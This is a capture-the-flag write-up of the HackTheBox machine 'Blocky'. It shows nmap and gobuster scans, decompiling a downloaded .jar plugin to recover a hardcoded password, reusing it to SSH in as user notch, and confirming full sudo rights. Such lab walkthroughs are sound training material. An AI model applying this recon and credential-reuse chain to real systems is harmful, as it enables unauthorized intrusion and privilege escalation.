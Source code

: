 ```yaml
---
layout: post
title: Blocky (10.10.10.37) Writeup
description: >
  Hackthebox Blocky Writeup
image: /assets/img/blocky.png
noindex: true
---
```


<center><h3>Summary</h3></center>

- Get credentials from a .jar file located in the <b>/plugins</b> directory
- Use the password found to ssh in the system as the user notch
- Run <b>sudo -l</b> to see that I can run commands as sudo
<br>

First I start with an nmap scan.
```
# Nmap 7.70 scan initiated Fri May 31 12:13:39 2019 as: nmap -sV -sC -T4 -oN BlockyNmap 10.10.
10.37
Nmap scan report for 10.10.10.37
Host is up (0.036s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 31 12:13:52 2019 -- 1 IP address (1 host up) scanned in 13.20 seconds
```
<br>

I look around and don't find much except for a post made by the user Notch. Next, I decide to run a gobuster
```
gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/16 15:04:36 Starting gobuster
===============================================================
/wiki (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
```
<br>
Navigating to the <b>/plugins</b> directory, you will see two files. Lets download them both to our host

![files.png](../../resources/b16bd8e7ed044d578db1107f5141d09e.png)

Both of the files are <b>.jar</b> files which means the contents need to be extracted. The command below will list the files inside the <b>.jar</b> file.

```
jar -tf BlockyCore.jar
```
I see that it lists a file

```
META-INF/MANIFEST.MF
com/myfirstplugin/BlockyCore.class
```
Lets extract that specific file.

```
jar xf BlockyCore.jar com/myfirstplugin/BlockyCore.class
```
Now to read the file I need to use the <b>javap</b> command.
```
javap -c com/myfirstplugin/BlockyCore.class
```
You should get the output below. If you read through the file you should see something like resembles credentials.

```
11: ldc           #18                 // String root <-----User
13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
16: aload_0
17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22 <-----Password
19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
```
<br>
Now first thing I tried was logging into the wordpress site but that didnt work. Next I tried ssh but it didnt work with the user <b>root</b>. I tried to ssh again but this time using the user <b>notch</b> and password <b>8YsqfCTnvxAUeduzjNSXe22</b> and it worked.

```
root@kali: ssh notch@10.10.10.37

The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.
notch@10.10.10.37's password:
Ilcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$
```
<br>
Now if I type <b>sudo -l</b> and enter the same password as before then you will see that I have sudo rights which means I can just grab both the user and root flags. The user flag is located at <b>/home/notch/user.txt</b> and the root is at <b>/root.root.txt</b>
<br><br><br>
